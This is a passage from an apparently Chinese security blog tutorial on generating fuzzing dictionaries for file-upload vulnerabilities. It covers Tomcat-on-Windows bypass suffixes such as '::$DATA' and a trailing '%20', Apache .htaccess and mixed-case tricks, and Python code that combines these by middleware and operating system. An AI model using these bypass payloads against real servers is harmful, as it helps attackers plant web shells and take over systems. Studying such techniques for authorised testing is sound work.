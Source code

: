 nginx的解析漏洞，由于和上传的文件名无关，故生成字典无需考虑。

### [](https://gv7.me/articles/2018/make-upload-vul-fuzz-dic/#4-4-tomcat "4.4 tomcat")4.4 tomcat

tomcat用于上传绕过的有三种,不过限制在windows操作系统下。

1. xxx.jsp/
2. xxx.jsp%20
3. xxx.jsp::$DATA

根据以上规则生成字典对应的代码为：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8|win_tomcat = ['%20','::$DATA','/']  <br>def tomcat_suffix_creater(suffix):  <br>	res = []  <br>	for l in suffix:  <br>		for t in win_tomcat:  <br>			str = '%s%s' % (l,t)  <br>			res.append(str)  <br>	return res|

如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6|if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):  <br>	htaccess_suffix = uperTest(".htaccess")  <br>elif (middleware == 'apache' or middleware == 'all') and os == 'linux':  <br>	htaccess_suffix = ['.htaccess']  <br>else:  <br>	htaccess_suffix = []|

### [](https://gv7.me/articles/2018/make-upload-vul-fuzz-dic/#4-5-%E8%AF%AD%E8%A8%80%EF%BC%8C%E4%B8%AD%E9%97%B4%E4%BB%B6%E4%B8%8E%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%85%B3%E7%B3%BB "4.5 语言，中间件与操作系统的关系")4.5 语言，中间件与操作系统的关系

以上我们根据每个中间件的漏洞，编写了对应的fuzz字典生成函数。在最终生成字典时，我们还要考虑中间件可以运行那些语言，以及它们与平台的关系。

|语言|IIS|Apache|Tomcat|Window|Linux|
|:--|:-:|:-:|:-:|:-:|:-:|
|asp/aspx|√|√|×|√|√|
|php|√|√|√|√|√|
|jsp|√|×|√|√|√|

根据上表，我们明白

- iis下可以运行asp/aspx,php,jsp脚本，故这3种脚本语言可解析后缀均应该传入iis_suffix_builder()进行处理
- apache下可以运行asp/aspx,php。故这2两种脚本语言可解析后缀均应该传入apache_suffix_builder()进行处理
- tomcat下可以运行php，jsp，故这两个脚本语言可解析后缀均应该传入tomcat_suffix_builder()进行处理。
- 注意：根据对tomcat上传的绕过分析，发现之后在windows平台下才能成功。故之后在Windows平台下才会调用`tomcat_suffix_builder()`对可解析后缀进行处理。

故伪代码可以编写如下：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9  <br>10  <br>11  <br>12  <br>13  <br>14  <br>15  <br>16  <br>17  <br>18  <br>19|if middleware == 'iis':  <br>	case_asp_php_jsp_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_jsp_parse_suffix  <br>	middleware_parse_suffix = iis_suffix_creater(case_asp_php_jsp_parse_suffix)  <br>elif middleware == 'apache':  <br>	case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix  <br>	middleware_parse_suffix = apache_suffix_creater(case_asp_php_html_parse_suffix)  <br>elif middleware == 'tomcat' and os == 'linux':  <br>	middleware_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix  <br>elif middleware == 'tomcat' and (os == 'win' or os == 'all'):  <br>	case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix  <br>	middleware_parse_suffix = tomcat_suffix_creater(case_php_jsp_parse_suffix)  <br>else:  <br>	case_asp_php_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix  <br>	iis_parse_suffix = iis_suffix_creater(case_asp_php_parse_suffix)  <br>	case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix  <br>	apache_parse_suffix = apache_build(case_asp_php_html_parse_suffix)  <br>	case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix  <br>	tomcat_parse_suffix = tomcat_build(case_php_jsp_parse_suffix)		  <br>	middleware_parse_suffix = iis_parse_suffix + apache_parse_suffix + tomcat_parse_suffix|

## [](https://gv7.me/articles/2018/make-upload-vul-fuzz-dic/#%E4%BA%94%E3%80%81%E7%B3%BB%E7%BB%9F%E7%89%B9%E6%80%A7 "五、系统特性")五、系统特性
